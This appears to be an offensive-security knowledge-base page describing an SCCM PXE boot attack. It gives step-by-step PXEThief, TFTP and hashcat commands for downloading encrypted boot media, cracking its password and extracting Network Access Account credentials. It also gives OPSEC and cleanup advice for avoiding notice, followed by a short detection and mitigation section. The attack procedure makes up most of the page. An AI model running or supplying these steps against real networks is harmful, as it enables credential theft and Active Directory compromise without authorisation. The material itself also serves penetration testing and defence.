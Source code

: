 ```yaml
---
tags:
  - type/technique
  - tactic/TA0006
  - technique/T1547003
  - technique/T1552001
  - stage/initial-access
  - stage/credential-access
  - os/windows
  - tool/pxethief
  - tool/hashcat
  - service/sccm
  - service/pxe
aliases:
  - SCCM PXE Boot Attack
  - PXEThief NAA Credential Theft
  - Crack SCCM PXE Media Password
  - SCCM Task Sequence Credential Harvesting
---
```



## Technique
___
This technique provides initial access by exploiting the **Pre-Boot Execution Environment (PXE)**, a standard for booting computers over the network. In corporate environments, PXE is commonly used by **System Center Configuration Manager (SCCM)** to deploy operating systems.

An attacker on the local network can masquerade as a new computer requesting a boot image. By capturing the SCCM boot media files, the attacker can perform an offline password cracking attack to decrypt them. A successful decryption reveals sensitive information, most notably the credentials for the **Network Access Account (NAA)** or domain join accounts, which can be used for initial access and privilege escalation within the Active Directory domain.

!!! alert "note"
	The presence of PXE is a common indicator that SCCM is being used as well, but not always



## Prerequisites
___
**Access Level:** An attacker needs to be on the same local network (broadcast domain) as the SCCM PXE-enabled Distribution Point. No prior domain credentials are required.

**System State:**

- A PXE-enabled SCCM Distribution Point must be accessible on the network.
    
- The attacker's machine must be a Windows system to run the required tool, `PXEThief`.
    
- The attacker's machine must be seen as an "Unknown Computer" by SCCM.
    
- A `tftp` client is required to download boot files.
    
- `hashcat` and a custom SCCM hashcat module are needed for password cracking.
    

**Information:** The IP address of the SCCM Distribution Point (DP) is helpful, though it can sometimes be discovered.

## Considerations
___

**Impact**

A successful attack grants the attacker highly valuable credentials. The **Network Access Account** and **Domain Join Account** often have permissions to read from most Active Directory objects and write to computer objects, providing a significant foothold for lateral movement and further exploitation.

**OPSEC**

- Initial PXE/DHCP requests are broadcast traffic and may not appear suspicious.
    
- The `tftp` file transfer is unencrypted and could be flagged by network monitoring.
    
- Subsequent authenticated requests to the SCCM Management Point (MP) originate from an attacker-controlled, unmanaged device, which could be an indicator of compromise if client origins are monitored.

## Identify
___
The primary method for identifying a vulnerable PXE server is to use the `PXEThief` tool. While it has a discovery option, directly targeting a known or suspected SCCM server IP address is more reliable.
[https://github.com/MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

!!! alert "note"
	 PXEThief  should only be used on windows do to the pywin32 dependency, it also works best with python 3.10 

```powershell
python pxethief.py 2 <DISTRIBUTION_POINT_IP>
```
A successful response will provide the file paths for the .boot.var and .boot.bcd files on the server's TFTP share.

## Execution
___
**Step 1: Request Boot Media Paths**

Use PXEThief to coerce the DP into providing the location of the encrypted boot media files.

```powershell
python pxethief.py 2 <IP>
```

This will output the full paths to the `.boot.var` and `.boot.bcd` files.

**Step 2: Download the Encrypted Boot Variable File**

Use the `tftp` client to download the `.boot.var` file from the Distribution Point.

```powershell
tftp -i <DISTRIBUTION_POINT_IP> GET "\\SMSTemp\\<...>.boot.var" "<...>.boot.var"
```

**Step 3: Extract the Hash for Cracking**

Use `PXEThief` with option 5 to process the downloaded `.boot.var` file and generate a crackable hash.

```powershell
python pxethief.py 5 '.\\<...>.boot.var'
```

A specific [hashcat module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) must be used to crack the hash. Here is how to install it:

```bash
cd hashcat_pxe/
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850\* hashcat/OpenCL/
cd hashcat
git checkout -b v6.2.5 tags/v6.2.5 # change to 6.2.5
make
```


Then, the hash can be cracked with hashcat's module `19850` and a password wordlist:

```bash
hashcat/hashcat -m 19850 --force -a 0 hashcat/hash /usr/share/wordlists/rockyou.txt
```

**Step 5: Decrypt Media and Extract Credentials**

Use `PXEThief` with option 3, providing the downloaded `.boot.var` file and the cracked password to decrypt the contents and automatically extract credentials.

```powershell
python pxethief.py 3 '.\\<...>.boot.var' "Password123!"
```

The tool will parse the decrypted data and display any found usernames and passwords for accounts like the NAA.

## Cleanup Considerations
___
- Delete all downloaded artifacts from the attack machine, including the `.boot.var`, `.boot.bcd`, `variables.xml`, and the exported `.pfx` certificate file.
    
- Remove the client certificate imported by `PXEThief` from the Windows Certificate Store.

## Detection & Mitigation
___
#### **Detection**

- **Network Monitoring:** Monitor for unusual `tftp` traffic or a high volume of PXE boot requests from a single source.
    
- **Log Analysis:** Audit SCCM and domain controller logs for authentication events tied to the Network Access Account originating from unexpected or unmanaged IP addresses.
    
- **Endpoint Monitoring:** Look for the execution of `PXEThief.py` or `tftp.exe` on non-administrative workstations.
    

#### **Mitigation**

- **Strong Passwords:** Protect the PXE boot media with a **strong, complex, and long password**. This makes offline cracking significantly more difficult and time-consuming.
    
- **Least Privilege:** Strictly enforce the principle of least privilege for the Network Access Account and any domain join accounts. They should have the absolute minimum permissions required to function.
    
- **Network Segmentation:** Use VLANs and firewall rules to restrict which network segments can communicate with SCCM Distribution Points on required ports (e.g., DHCP, TFTP).
    
- **Regular Audits:** Regularly audit and rotate the credentials used for PXE boot and within Task Sequences.